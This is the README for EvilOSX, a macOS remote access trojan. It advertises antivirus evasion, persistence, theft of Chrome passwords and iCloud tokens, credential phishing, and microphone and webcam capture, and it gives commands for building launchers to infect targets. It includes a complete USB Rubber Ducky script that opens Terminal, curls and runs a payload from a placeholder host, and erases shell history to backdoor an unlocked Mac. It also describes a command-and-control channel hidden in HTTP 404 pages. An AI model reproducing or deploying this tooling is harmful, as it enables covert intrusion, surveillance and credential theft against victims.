 <h1 align="center">
  <br>
  <a href="https://github.com/Marten4n6/EvilOSX"><img src="/data/images/logo.png?raw=true" alt="Logo" width="280"></a>
  <br>
  EvilOSX
  <br>
</h1>

<h4 align="center">An evil RAT (Remote Administration Tool) for macOS / OS X.</h4>

<p align="center">
  <a href="https://github.com/Marten4n6/EvilOSX/blob/master/LICENSE.txt">
      <img src="https://img.shields.io/badge/license-GPLv3-blue.svg?style=flat-square" alt="License">
  </a>
  <a href="https://github.com/Marten4n6/EvilOSX/blob/master/LICENSE.txt">
      <img src="https://img.shields.io/badge/python-2.7,%203.7-blue.svg?style=flat-square" alt="Python">
  </a>
  <a href="https://github.com/Marten4n6/EvilOSX/issues">
    <img src="https://img.shields.io/github/issues/Marten4n6/EvilOSX.svg?style=flat-square" alt="Issues">
  </a>
  <a href="https://travis-ci.org/Marten4n6/EvilOSX">
      <img src="https://img.shields.io/travis/Marten4n6/EvilOSX/master.svg?style=flat-square" alt="Build Status">
  </a>
  <a href="https://github.com/Marten4n6/EvilOSX/blob/master/CONTRIBUTING.md">
      <img src="https://img.shields.io/badge/contributions-welcome-brightgreen.svg?style=flat-square" alt="Contributing">
  </a>
</p>

---

## Features
- Emulate a terminal instance
- Simple extendable [module](https://github.com/Marten4n6/EvilOSX/blob/master/CONTRIBUTING.md) system
- No bot dependencies (pure python)
- Undetected by anti-virus (OpenSSL [AES-256](https://en.wikipedia.org/wiki/Advanced_Encryption_Standard) encrypted payloads)
- Persistent
- GUI and CLI support
- Retrieve Chrome passwords
- Retrieve iCloud tokens and contacts
- Retrieve/monitor the clipboard
- Retrieve browser history (Chrome and Safari)
- [Phish](https://i.imgur.com/x3ilHQi.png) for iCloud passwords via iTunes
- iTunes (iOS) backup enumeration
- Record the microphone
- Take a desktop screenshot or picture using the webcam
- Attempt to get root via local privilege escalation

## How To Use

```bash
# Clone or download this repository
$ git clone https://github.com/Marten4n6/EvilOSX

# Install dependencies required by the server
$ sudo pip install -r requirements.txt

# Go into the repository
$ cd EvilOSX

# Start the GUI
$ python start.py

# Lastly, run a built launcher on your target(s)
```
**Warning:** Because payloads are created unique to the target system (automatically by the server), the server must be running when any bot connects for the first time.

### Advanced users

There's also a CLI for those who want to use this over SSH:
```bash
# Create a launcher to infect your target(s)
$ python start.py --builder

# Start the CLI
$ python start.py --cli --port 1337
```

## Screenshots
![CLI](https://i.imgur.com/DGYCQMl.png)
![GUI](https://i.imgur.com/qw3k4z4.png)

## Motivation
This project was created to be used with my [Rubber Ducky](https://hakshop.com/products/usb-rubber-ducky-deluxe), here's the simple script:
```
REM Download and execute EvilOSX @ https://github.com/Marten4n6/EvilOSX
REM See also: https://ducktoolkit.com/vidpid/

DELAY 1000
GUI SPACE
DELAY 500
STRING Termina
DELAY 1000
ENTER
DELAY 1500

REM Kill all terminals after x seconds
STRING screen -dm bash -c 'sleep 6; killall Terminal'
ENTER

STRING cd /tmp; curl -s HOST_TO_EVILOSX.py -o 1337.py; python 1337.py; history -cw; clear
ENTER
```
- It takes about 10 seconds to backdoor any unlocked Mac, which is...... *nice*
- Termina**l** is spelt that way intentionally, on some systems spotlight won't find the terminal otherwise. <br/>
- To bypass the keyboard setup assistant make sure you change the VID&PID which can be found [here](https://ducktoolkit.com/vidpid/). <br/>
  Aluminum Keyboard (ISO) is probably the one you are looking for.


## Versioning
EvilOSX will be maintained under the Semantic Versioning guidelines as much as possible. <br/>
Server and bot releases will be numbered with the follow format:
```
<major>.<minor>.<patch>
```

And constructed with the following guidelines:
- Breaking backward compatibility (with older bots) bumps the major
- New additions without breaking backward compatibility bumps the minor
- Bug fixes and misc changes bump the patch

For more information on SemVer, please visit https://semver.org/.

## Design Notes
- Infecting a machine is split up into three parts:
  * A **launcher** is run on the target machine whose only goal is to run the stager
  * The stager asks the server for a **loader** which handles how a payload will be loaded
  * The loader is given a uniquely encrypted **payload** and then sent back to the stager
- The server hides it's communications by sending messages hidden in HTTP 404 error pages (from BlackHat's "Hiding In Plain Sight")
  * Command requests are retrieved from the server via a GET request
  * Command responses are sent to the server via a POST request
- Modules take advantage of python's dynamic nature, they are simply sent over the network compressed with [zlib](https://www.zlib.net), along with any configuration options
- Since the bot only communicates with the server and never the other way around, the server has no way of knowing when a bot goes offline

## Issues
Feel free to submit any issues or feature requests [here](https://github.com/Marten4n6/EvilOSX/issues).

## Contributing
For a simple guide on how to create modules click [here](https://github.com/Marten4n6/EvilOSX/blob/master/CONTRIBUTING.md).

## Credits
- The awesome [Empire](https://github.com/EmpireProject) project
- Shoutout to [Patrick Wardle](https://twitter.com/patrickwardle) for his awesome talks, check out [Objective-See](https://objective-see.com/)
- [manwhoami](https://github.com/manwhoami) for his projects: [OSXChromeDecrypt](https://github.com/manwhoami/OSXChromeDecrypt), [MMeTokenDecrypt](https://github.com/manwhoami/MMeTokenDecrypt), [iCloudContacts](https://github.com/manwhoami/iCloudContacts)
- The slowloris module is pretty much copied from [PySlowLoris](https://github.com/ProjectMayhem/PySlowLoris)
- [urwid](http://urwid.org/) and [this code](https://github.com/izderadicka/xmpp-tester/blob/master/commander.py) which saved me a lot of time with the GUI
- Logo created by [motusora](https://www.behance.net/motusora)

## License
[GPLv3](https://github.com/Marten4n6/EvilOSX/blob/master/LICENSE.txt)
